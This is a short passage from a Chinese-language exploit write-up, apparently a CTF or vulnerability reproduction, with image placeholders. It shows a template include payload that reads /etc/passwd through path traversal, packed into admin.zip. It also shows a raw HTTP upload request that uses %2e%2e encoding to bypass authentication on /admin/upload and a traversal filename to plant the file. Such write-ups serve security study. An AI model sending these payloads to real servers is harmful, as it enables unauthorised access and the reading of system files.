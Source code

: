 ![图片](assets/1701827499-65fa90656d202b57a3c29df46ae53970.png "null")

image.png

所以，我们编写一个 hello.html，并将其打包为 admin.zip

```plain
#include("../../../../../../../../../../../../../etc/passwd")
```

![图片](assets/1701827499-c2478824c6ebb5e5d7986fa40b00285d.png "null")

image.png

由于 python 的 request 会自动对%2e 做解码和路径归并，BurpSuite 的 Paste from file 经常出现文件内容损坏，所以这里选择使用 Yakit 发送：

```plain
POST /index/%2e%2e/admin/upload HTTP/1.1
Host: 192.168.59.190:32781
Content-Length: 184
Content-Type: multipart/form-data; boundary=------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn

--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn
Content-Disposition: form-data; name="file"; filename="../template/admin.zip"

{{file(/path/to/admin.zip)}}
--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn--
```
